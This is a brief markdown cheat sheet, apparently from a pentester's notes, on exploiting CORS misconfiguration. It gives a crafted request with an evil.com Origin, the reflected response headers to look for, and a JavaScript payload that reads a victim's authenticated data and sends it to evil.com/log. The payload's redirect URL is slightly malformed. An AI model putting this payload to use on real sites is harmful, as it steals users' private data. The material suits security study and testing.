 # misconfig

1.Burp: [https://portswigger.net/web-security/cors](https://portswigger.net/web-security/cors)

2\. [https://medium.com/@amangupta566/cors-misconfiguration-leads-to-steal-sensitive-information-disclosure-fdf050b68b66](https://medium.com/@amangupta566/cors-misconfiguration-leads-to-steal-sensitive-information-disclosure-fdf050b68b66)



## How to:

#### 1. set the origin:

```
GET /sensitiveData HTTP/1.1
Host: vulnerable.com
Origin: 
https://evil.com

```





#### 2. find the response that can be controlled:

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
```

The `Access-Control-Allow-Origin` be written by Origin and \`Access-Control-Allow-Credentials\` is true.



#### 3. use the js to interact with the service:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//https://evil.com/log?key='+this.responseText;
};
```

The sensitive response information will be sent to the evil.com..
